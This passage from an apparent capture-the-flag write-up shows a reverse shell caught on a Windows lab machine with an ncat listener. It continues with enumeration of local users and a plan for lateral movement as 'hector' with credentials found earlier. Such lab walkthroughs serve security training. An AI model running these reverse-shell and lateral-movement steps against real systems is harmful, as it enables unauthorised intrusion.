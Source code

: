 And we got a reverse shell as `nt authority\iusr`
```powershell
$ sudo rlwrap ncat -lvnp 443

Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49680.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot> whoami
nt authority\iusr
PS C:\inetpub\wwwroot> hostname
Fidelity
```

## Lateral Movement
Looking at the users present on the box. we can `hector` in there.
```powershell
PS C:\inetpub\wwwroot> net users
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
Hector                   WDAGUtilityAccount       
The command completed with one or more errors.
```
Let's get bit more details about `hecotr`. 
```powershell
PS C:\inetpub\wwwroot> net user hector
net user hector
User name                    Hector
Full Name                    Hector
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/1/2019 12:27:50 PM
Password expires             Never
Password changeable          11/1/2019 12:27:50 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   4/27/2020 7:41:00 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```
Since, `Hecotor` is a part of `Remote Management Users` we'll can login as hectors with the `credentials` we got previously.
